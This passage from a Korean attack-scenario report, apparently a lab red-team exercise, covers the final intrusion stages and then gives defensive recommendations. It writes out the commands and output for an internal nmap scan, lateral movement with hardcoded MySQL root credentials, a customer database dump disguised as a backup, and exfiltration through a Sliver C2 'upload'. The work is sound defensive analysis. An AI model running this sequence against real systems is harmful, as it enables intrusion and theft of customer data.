공격자는 확보한 C2 셸을 통해 타겟 호스트 내부의 네트워크 연결 상태를 확인하여, 백도어가 정상적으로 동작하고 아웃바운드 방화벽을 우회했음을 검증했다.

```bash
# 피해자 셸
$ netstat -antp | grep kupdate_service
tcp   0   0 10.42.2.4:49152   HAMAP_SHOP_IP:443   ESTABLISHED 24102/kupdate_servi
```

**피보팅 인프라 구축:** 내부망 침투를 위해 C2 세션 내에서 SOCKS5 프록시를 구동했다.


### 6.4. 탐지 및 방어 전략
*   **네트워크 비콘 탐지:**
    *   `Jitter`가 적용되었더라도, 특정 내부 호스트가 외부의 동일한 IP/도메인으로 **주기적인 통신 패턴**을 보이는 것은 C2 통신의 강력한 증거이다. Zeek, Suricata 같은 NTA 솔루션으로 이를 탐지할 수 있다.
*   **JA3/JA3S Fingerprinting:**
    *   일반적인 웹 브라우저나 클라이언트가 아닌, Sliver/Go 언어 특유의 TLS 핸드셰이크 핑거프린트를 식별하여 차단해야 한다.

---

## 7. 목적 달성
**목표:** 완전히 장악한 웹 서버 호스트(DMZ)를 교두보로 삼아 내부망 깊숙이 침투하고, 최종 목표인 **데이터베이스(DB) 서버를 장악하여 핵심 고객 정보를 유출**함으로써 작전을 완수한다.

*   **[T1046] Network Service Scanning:** 내부망 서비스 및 포트 식별.
*   **[T1555] Credentials from Password Stores:** 설정 파일 내 하드코딩된 자격 증명 탈취.
*   **[T1021] Remote Services:** 탈취한 자격 증명을 이용한 수평 이동.
*   **[T1041] Exfiltration Over C2 Channel:** C2 채널을 통한 데이터 유출.

### 7.1. 1단계: 내부 정찰 및 타겟 식별
공격자는 장악한 웹 서버(`10.42.2.4`)의 `root` 셸에서 내부망(`10.42.3.0/24`)을 대상으로 `nmap` 스캔을 수행하여 추가 공격 대상을 물색했다.

```bash
# Sliver C2 세션 (웹 호스트 Root 셸)
[server] sliver (web-vmss-01) > shell
# nmap -sT -p 3306,5432,6379 10.42.3.0/24 --open

Nmap scan report for 10.42.3.4
Host is up (0.00051s latency).
PORT     STATE SERVICE
3306/tcp open  mysql
6379/tcp open  redis
```


**내부 정찰 결과:**
- **MySQL (3306):** 데이터베이스 서버 발견 → 본 시나리오에서 공략
- **Redis (6379):** 인증 없이 접근 가능한 캐시 서버 발견

**[발견 사항: Redis 내부 데이터 노출]**
Redis에 인증 없이 접근하여 `KEYS *` 명령으로 민감한 키 목록을 확인했다.


### 7.2. 2단계: 자격 증명 탈취 및 수평 이동
5단계에서 획득한 호스트 VM의 `root` 권한 덕분에 웹 애플리케이션의 모든 파일을 제약 없이 검색할 수 있었다.

1.  **자격 증명 탈취:**
    취약한 PHP 로그인 페이지 소스 코드에서 하드코딩된 DB 접속 정보를 발견했다.

    ```bash
    # grep -r "password" /var/www/html/login/
    > /var/www/html/login/index.php: $conn = @new mysqli("localhost", "root", "root", "users");
    ```
    **[발견 사항]** DB 접속 계정이 `root` / `root` 라는 취약한 자격 증명임이 확인되었다.

2.  **수평 이동:**
    탈취한 자격 증명을 사용하여 웹 서버에서 DB 서버(`10.42.3.4`)로 직접 접속했다.

    ```bash
    # mysql -h 10.42.3.4 -u root -proot
    Welcome to the MySQL monitor.  Your MySQL connection id is 8
    Server version: 5.7.33-0ubuntu0.18.04.1 (Ubuntu)

    mysql>
    ```
    **결과:** DMZ(웹) 구간과 내부망(DB) 구간 사이의 **네트워크 분리가 미흡**하여, 웹 서버에서 DB 서버로의 직접 접속이 성공했다.

### 7.3. 3단계: 핵심 데이터 수집 및 유출
공격자는 DB 서버의 제어권을 확보하고, `customer_db`를 최종 목표로 삼았다.

1.  **데이터 스테이징:**
    `mysqldump`를 이용해 고객 테이블 전체를 덤프하고, `tar`로 압축하여 파일 크기를 줄이고 탐지를 회피했다. 파일명은 정상적인 백업 파일처럼 `db_backup_20251125.tar.gz`로 위장했다.

    ```bash
    # DB 서버에서 (mysql 클라이언트 통해 접속)
    mysql> exit;

    # 웹 호스트에서
    # mysqldump -h 10.42.3.4 -u root -proot customer_db > /tmp/customer_data.sql
    # tar -czvf /tmp/db_backup_20251125.tar.gz /tmp/customer_data.sql
    ```

2.  **C2 채널을 통한 유출 (Exfiltration):**
    웹 서버에 설치된 Sliver C2 에이전트의 `upload` 기능을 사용하여 압축된 DB 덤프 파일을 외부 C2 서버로 유출했다.

    ```bash
    # Sliver C2 콘솔 (공격자 측)
    [server] sliver (web-vmss-01) > upload /tmp/db_backup_20251125.tar.gz
    [*] Uploading /tmp/db_backup_20251125.tar.gz (15.7 MiB) to /loot/
    [*] Upload successful!
    ```


**결과:** 기업의 핵심 자산인 고객 개인정보(PII) 및 신용카드 정보가 암호화된 C2 채널을 통해 외부에 있는 공격자에게 완전히 넘어갔다.

### 7.4. 탐지 및 방어 전략
*   **네트워크 세그멘테이션:**
    *   웹 서버가 DB 서버에 접근할 때, 오직 필요한 포트(3306)만 허용하고 나머지는 차단해야 한다. 또한, 웹 서버가 DB 서버의 관리자 계정(`root`)으로 접속하는 것은 절대 허용되어서는 안 된다.
*   **데이터 유출 방지 (DLP):**
    *   네트워크 경계에서 대용량 파일 전송이나 암호화된 파일의 외부 전송을 탐지하고 차단하는 DLP 솔루션을 도입해야 한다.

---

## 8. 종합 분석 및 권고 사항
### 8.1. 종합 위협 분석: 단일 실패 지점의 연쇄 붕괴
본 공격 시나리오는 단 하나의 방치된 **공급망 취약점**이 어떻게 기업의 방어 체계 전체를 무너뜨리는지를 명확히 보여주었다. 각 방어 계층은 독립적으로 동작했을 뿐, 연계된 공격 흐름을 막아내지 못했으며, 이는 다음과 같은 구조적 실패에 기인한다.

1.  **공격 표면 관리 실패:** 패치되지 않은 라이브러리가 포함된 애플리케이션이 WAF와 같은 보호 장치 없이 인터넷에 직접 노출되었다.
2.  **컨테이너 보안 원칙 위배:** 애플리케이션 컨테이너를 **`root` 권한**으로 실행한 것은 공격자가 초기 침투와 동시에 시스템 최고 권한을 획득하게 만든 주요 원인이었다. 이는 "권한 상승" 단계를 생략시켜 공격의 속도를 극적으로 높였다.
3.  **비밀정보 관리 실패:** 소스 코드에 데이터베이스 `root` 계정의 비밀번호를 하드코딩한 것은 공격자에게 내부망으로 향하는 "프리패스"를 제공한 것과 같다.
4.  **아웃바운드 통제 부재:** 내부 서버가 인터넷 상의 임의의 C2 서버와 자유롭게 통신할 수 있었던 것은 공격자가 제어권을 유지하고 데이터를 유출하는 데 결정적인 역할을 했다.

### 8.2. Kill Chain 단계별 방어 실패 분석

| 단계 | 공격 기법 | 방어 실패 원인 |
| :--- | :--- | :--- |
| **Recon** | Port Scanning | 로드 밸런서가 모든 포트 스캔 트래픽을 허용함. |
| **Delivery** | OGNL/JNDI Injection | WAF 부재로 악성 페이로드 차단 실패. |
| **Exploitation** | RCE & 리버스 셸 | 컨테이너 런타임 보안 부재로 셸 실행 탐지 실패. |
| **Installation** | Systemd Persistence | FIM 부재로 악성 서비스 등록 탐지 실패. |
| **C2** | mTLS Beaconing | 아웃바운드 통제 부재로 C2 연결 허용. |
| **Action** | DB Dump & Exfil | 내부망 세그멘테이션 미흡 및 DLP 부재. |

### 8.3. 보안 강화 로드맵

#### Phase 1: 긴급 조치 (24h)
**목표:** 현재 위협 제거 및 출혈 차단

1. **긴급 패치:** Log4j/Struts2 라이브러리 즉시 업데이트
2. **C2 차단:** 방화벽에서 악성 도메인(`hamap.shop`) 및 IP 차단
3. **아웃바운드 통제:** 웹/DB 서버의 인터넷 트래픽을 Default Deny로 변경하고 필수 도메인만 허용

#### Phase 2: 구조 개선 (1 Month)
**목표:** 공격 난이도 상향 및 내부 확산 방지

1. **컨테이너 하드닝:** 모든 Dockerfile에 `USER 1000` 등 non-root 사용자 지정. 컨테이너 파일 시스템 `Read-Only` 설정
2. **Secrets Management:** Azure Key Vault를 도입하여 소스 코드 내 모든 비밀번호 제거
3. **WAF 적용:** OGNL/JNDI Injection 패턴 차단 룰셋 적용

#### Phase 3: 체질 개선 (6 Months)
**목표:** 지속 가능한 선제적 방어 체계 구축

1. **DevSecOps 파이프라인:** CI/CD에 SCA(Software Composition Analysis) 도구를 통합하여 빌드 시점에 취약한 라이브러리 자동 차단
2. **제로 트러스트 네트워크:** 내부 통신에도 마이크로 세그멘테이션을 적용하고, 워크로드 단위 인증 강화
3. **EDR/NDR 고도화:** "Java 프로세스가 Shell 실행" 등 행위 기반 탐지 룰셋을 개발하고 관제

### 8.4. 기술적 세부 권고
**1. Dockerfile 보안 강화 예시:**
```dockerfile
# [Bad] 기본값(root) 사용
# FROM openjdk:8-jre-alpine

# [Good] Non-root 사용자 지정
FROM openjdk:8-jre-alpine
RUN addgroup -S appgroup && adduser -S appuser -G appgroup
USER appuser
```

**2. Kubernetes NetworkPolicy 예시 (Default Deny):**
```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: default-deny-all
spec:
  podSelector: {}
  policyTypes:
  - Ingress
  - Egress
```

### 8.5. 결론
외부 RCE 연쇄 공격 시나리오는 현대 클라우드 환경에서도 **기본 보안 수칙(패치 관리, 권한 관리, 네트워크 격리)**이 무너지면, 정교한 제로데이 공격 없이도 시스템 전체가 장악될 수 있음을 증명했다.

방어자는 **"이미 침해당했다"**는 가정 하에 경계 방어뿐만 아니라, 침투 후 **내부 확산을 저지**하고, **피해를 국지화**하며, **신속하게 탐지하고 대응**할 수 있는 회복탄력성 중심의 보안 전략으로 전환해야 한다.